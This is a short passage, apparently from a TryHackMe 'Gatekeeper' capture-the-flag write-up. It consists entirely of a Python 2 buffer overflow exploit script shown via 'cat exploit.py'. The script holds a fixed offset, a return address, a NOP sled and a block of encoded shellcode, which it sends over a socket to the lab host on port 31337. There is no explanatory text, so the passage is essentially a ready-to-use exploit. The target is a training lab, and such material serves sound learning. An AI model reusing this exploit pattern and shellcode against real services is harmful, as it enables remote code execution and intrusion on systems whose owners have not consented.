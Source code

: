 ```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = 'gatekeeper.thm'
port = 31337


offset = 146
overflow = "A" * 146
ret = "\xc3\x14\x04\x08"
padding = "\x90" *16
payload = ("\xb8\xd4\x83\x3c\x2d\xdb\xc1\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x46\x12\x83\xc6\x04\x03\x92\x8d\xde\xd8\xe6\x7a\x9c"
"\x23\x16\x7b\xc1\xaa\xf3\x4a\xc1\xc9\x70\xfc\xf1\x9a\xd4\xf1"
"\x7a\xce\xcc\x82\x0f\xc7\xe3\x23\xa5\x31\xca\xb4\x96\x02\x4d"
"\x37\xe5\x56\xad\x06\x26\xab\xac\x4f\x5b\x46\xfc\x18\x17\xf5"
"\x10\x2c\x6d\xc6\x9b\x7e\x63\x4e\x78\x36\x82\x7f\x2f\x4c\xdd"
"\x5f\xce\x81\x55\xd6\xc8\xc6\x50\xa0\x63\x3c\x2e\x33\xa5\x0c"
"\xcf\x98\x88\xa0\x22\xe0\xcd\x07\xdd\x97\x27\x74\x60\xa0\xfc"
"\x06\xbe\x25\xe6\xa1\x35\x9d\xc2\x50\x99\x78\x81\x5f\x56\x0e"
"\xcd\x43\x69\xc3\x66\x7f\xe2\xe2\xa8\x09\xb0\xc0\x6c\x51\x62"
"\x68\x35\x3f\xc5\x95\x25\xe0\xba\x33\x2e\x0d\xae\x49\x6d\x5a"
"\x03\x60\x8d\x9a\x0b\xf3\xfe\xa8\x94\xaf\x68\x81\x5d\x76\x6f"
"\xe6\x77\xce\xff\x19\x78\x2f\xd6\xdd\x2c\x7f\x40\xf7\x4c\x14"
"\x90\xf8\x98\xbb\xc0\x56\x73\x7c\xb0\x16\x23\x14\xda\x98\x1c"
"\x04\xe5\x72\x35\xaf\x1c\x15\x30\x39\xfa\xa7\x2c\x3b\x02\x2c"
"\x7f\xb2\xe4\x46\x6f\x93\xbf\xfe\x16\xbe\x4b\x9e\xd7\x14\x36"
"\xa0\x5c\x9b\xc7\x6f\x95\xd6\xdb\x18\x55\xad\x81\x8f\x6a\x1b"
"\xad\x4c\xf8\xc0\x2d\x1a\xe1\x5e\x7a\x4b\xd7\x96\xee\x61\x4e"
"\x01\x0c\x78\x16\x6a\x94\xa7\xeb\x75\x15\x25\x57\x52\x05\xf3"
"\x58\xde\x71\xab\x0e\x88\x2f\x0d\xf9\x7a\x99\xc7\x56\xd5\x4d"
"\x91\x94\xe6\x0b\x9e\xf0\x90\xf3\x2f\xad\xe4\x0c\x9f\x39\xe1"
"\x75\xfd\xd9\x0e\xac\x45\xf9\xec\x64\xb0\x92\xa8\xed\x79\xff"
"\x4a\xd8\xbe\x06\xc9\xe8\x3e\xfd\xd1\x99\x3b\xb9\x55\x72\x36"
"\xd2\x33\x74\xe5\xd3\x11")

filler = overflow + ret + padding + payload

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```
